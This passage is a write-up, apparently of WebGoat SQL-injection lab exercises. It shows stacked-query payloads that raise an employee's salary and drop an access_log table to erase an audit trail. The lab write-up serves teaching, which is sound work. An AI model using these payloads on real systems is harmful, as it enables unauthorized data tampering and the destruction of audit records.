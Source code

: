 The column headers for later use:  
USERID	FIRST_NAME	LAST_NAME	DEPARTMENT	SALARY	AUTH_TAN  

### 12 Integrity (Get a payraise)

This one was a pretty straight forward after understanding the syntax in the previous.  
As we need to change some data in the database I will use the UPDATE and SET commands to achieve my goals.  
So the original query again:  
"SELECT * FROM employees WHERE last_name = '" + name + "' AND auth_tan = '" + auth_tan + "';  
  
Input  
Name: Fairy  
TAN: Godmother'; UPDATE employees SET salary=99000 WHERE auth_tan='3SL99A  
  
The query being sent to the server would look like this:  
SELECT * FROM employees WHERE last_name = 'Fairy' AND auth_tan = 'Godmother'; UPDATE employees SET salary=99000 WHERE auth_tan='3SL99A'  
  
A big payraise for John Smith **succesful**.  


### 13  Availabity (Cover the trail)

So the goal is to wipe out the access_log table.    
I'm going to assume this will achieved by using DROP TABLE access_log.  
Once again, first I just wanted to test the form so I just clicked search and was met with a record of my illegal actions. Not cool.  
The SQL query is probably something like this:  
SELECT * FROM access_log WHERE action = '" + action + "';

So let's see:  
Action contains: test'; DROP TABLE access_log  
So the query would be:  
SELECT * FROM access_log WHERE action = 'test'; DROP TABLE access_log ';    
Did not really think this would work and it didn't but wanted to see what happens for educational purposes. 
We seem to have a trailing quotation mark in the SQL query sent to the server.  

Let's comment the quote out:  
Action contains: '; DROP TABLE access_log --  
SELECT * FROM access_log WHERE action = ''; DROP TABLE access_log -- ''

We have **succesfully** covered our trail.  
